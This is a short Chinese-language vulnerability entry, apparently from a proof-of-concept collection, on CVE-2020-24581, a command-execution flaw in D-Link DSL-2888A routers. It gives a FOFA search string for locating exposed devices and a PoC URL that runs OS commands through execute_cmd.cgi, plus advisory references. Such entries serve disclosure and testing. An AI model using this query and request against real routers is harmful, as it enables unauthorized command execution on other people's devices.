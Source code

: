 # D-link DSL-2888A 远程代码执行漏洞 (CVE-2020-24581)

D-link DSL-2888A是中国D-link公司的一款统一服务路由器。D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。

PS:需身份验证

FOFA:

```
"DSL-2888A"
```

**PoC:**

```
http://DeviceIP/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&cmd=ls
```

![](images/16115656542559.jpg)


![](images/16115656597330.jpg)


ref：

* http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202012-1466
* https://www.trustwave.com/en-us/resources/security-resources/security-advisories/?fid=28241
* https://forum.ywhack.com/thread-115030-1-1.html
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/d-link-multiple-security-vulnerabilities-leading-to-rce/